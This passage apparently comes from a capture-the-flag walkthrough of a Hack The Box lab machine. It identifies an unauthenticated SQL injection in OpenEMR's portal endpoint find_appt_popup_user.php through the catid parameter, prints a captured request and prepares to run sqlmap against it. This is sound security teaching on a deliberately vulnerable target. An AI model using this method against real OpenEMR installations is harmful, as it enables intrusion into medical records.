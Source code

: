 ![](/assets/img/posts/htb/07-2020-3/hms-patient-login.png)

The Hospital Management System is available and we can see the patient portal login page. This screen also indicates that this is OpenEMR software, which, after a little research, looks to be vulnerable to a [SQL injection attack](https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf). Page 8 has a lot of detail on the attack we will use.

The vulnerable URL is `http://hms.htb/portal/find_appt_popup_user.php?catid=1` and by adding a comment quotation mark to the `catid` parameter, we can add unsanitized input without authentication. Let's capture a request to this URL with Burp Suite and save it to a file called `portal.req`.

```
GET /portal/find_appt_popup_user.php?catid=1 HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: OpenEMR=d3jlli8duq6uv54u0m3aeqj3p4; PHPSESSID=tnhhjq3o1mlh11se0aab74nclv
Upgrade-Insecure-Requests: 1
DNT: 1
Cache-Control: max-age=0
```

Next we will use this request with `sqlmap` to enumerate the available databases.
